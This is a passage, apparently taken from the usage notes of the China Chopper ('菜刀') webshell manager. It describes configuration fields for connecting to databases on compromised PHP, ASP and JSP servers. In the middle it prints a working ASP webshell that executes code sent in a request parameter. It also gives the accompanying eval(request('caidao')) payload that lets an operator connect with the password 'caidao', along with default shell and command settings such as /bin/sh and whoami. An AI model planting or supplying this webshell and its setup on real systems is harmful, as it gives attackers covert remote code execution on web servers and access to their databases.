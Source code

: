 	<L>utf8</L> 这一项数据库类型为MYSQL脚本为PHP时可选，不填则为latin1

	ASP 和 ASP.NET：
	<T>类型</T> 类型只能填ADO
	<C>ADO配置信息</C>
	ADO连接各种数据库的方式不一样。如MSSQL的配置信息为
		Driver={Sql Server};Server=(local);Database=master;Uid=sa;Pwd=123456;

	Customize：
	<T>类型</T> 类型只能填XDB
	<X>与Customize 脚本约定的配置信息</X>
	菜刀自带的Customize.jsp数据库参数填写方法如下(两行)：
	MSSQL:
		<X>
		com.microsoft.sqlserver.jdbc.SQLServerDriver
		jdbc:sqlserver://127.0.0.1:1433;databaseName=test;user=sa;password=123456
		</X>
	MYSQL:
		<X>
		com.mysql.jdbc.Driver
		jdbc:mysql://localhost/test?user=root&password=123456
		</X>
	ORACLE:
		<X>
		oracle.jdbc.driver.OracleDriver
		jdbc:oracle:thin:user/password@127.0.0.1:1521/test
		</X>

	-------------
	B) 其它配置：
	-------------

	添加额外附加提交的数据，如ASP的新服务端是这样的：
	<%
	Set o = Server.CreateObject("ScriptControl")
	o.language = "vbscript"
	o.addcode(Request("SC"))
	o.run "ff",Server,Response,Request,Application,Session,Error
	%>
	那么，菜刀在配置处填入：
	<O>SC=function+ff(Server,Response,Request,Application,Session,Error):eval(request("caidao")):end+function</O>
	然后以密码caidao来连接即可。

	默认终端程序路径设置示例：
	<SHELL>/bin/sh</SHELL>

	虚拟终端默认命令设置示例：
	<CMD>whoami</CMD>

	文件管理默认打开的目录设置示例：
	<CD>c:\windows\temp\</CD>


　　如果你网站开通了HTTP登录验证，可以这样填地址：
